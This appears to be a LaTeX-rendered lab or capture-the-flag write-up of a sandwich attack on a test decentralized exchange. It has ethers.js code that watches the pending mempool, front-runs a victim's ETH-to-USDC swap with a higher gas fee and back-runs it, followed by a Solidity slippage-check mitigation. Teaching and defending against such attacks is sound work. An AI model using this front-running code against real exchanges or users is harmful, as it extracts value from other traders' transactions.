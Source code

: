 \documentclass[12pt]{article}
\begin{document}
\noindent
The sandwich attack consists of three steps:

\begin{enumerate}
\item \textbf{Frontrun}: Buy tokens (swap ETH for USDC) before the victim's transaction, increasing the price
\item \textbf{Victim transaction}: Let the victim's swap execute at the now-worse price
\item \textbf{Backrun}: Sell the tokens (swap USDC back to ETH) after the victim's transaction, when the price is even higher
\end{enumerate}

\noindent
\begin{minipage}{\textwidth}
\begin{verbatim}
// See the mempool
const pendingBlock = await network.provider.send("eth_getBlockByNumber", [
  "pending",
  false,
]);

// Use our explorer function to show detailed transaction info
const targetTx = await exploreMempoolTransactions(
  pendingBlock.transactions,
  simpleDEX,
  "ethToUsdc"
);

// Calculate ETH to use (all player's ETH minus some for gas)
const gasBuffer = ethers.parseEther("0.01"); // Keep 0.01 ETH for gas costs
const frontrunAmount = PLAYER_INITIAL_ETH - gasBuffer;
console.log(
  `\nExecuting frontrun: swapping ${ethers.formatEther(
    frontrunAmount
  )} ETH for USDC...`
);

const frontrunTx = await simpleDEX.connect(player).ethToUsdc({
  value: frontrunAmount,
  maxPriorityFeePerGas: targetTx.maxPriorityFeePerGas + BigInt(1000000000), // +1 Gwei
  maxFeePerGas: targetTx.maxFeePerGas + BigInt(1000000000), // +1 Gwei
});

mine(1);

// backrun the transaction
const backrunAmount = await usdcToken.balanceOf(player.address);
await usdcToken.connect(player).approve(simpleDEX.target, backrunAmount);
await simpleDEX.connect(player).usdcToEth(backrunAmount);
\end{verbatim}
\end{minipage}

\subsubsection*{Possible Mitigation}

DEX should support slippage tolerance to protect against significant price movements. If the price moves beyond the tolerance, the transaction reverts.

\begin{verbatim}
function ethToUsdcWithSlippage(uint minUsdcOut) external payable {
    uint usdcBought = calculateOutput(msg.value);
    require(usdcBought >= minUsdcOut, "Slippage exceeded");
    // Execute the swap
}
\end{verbatim}
\end{document}
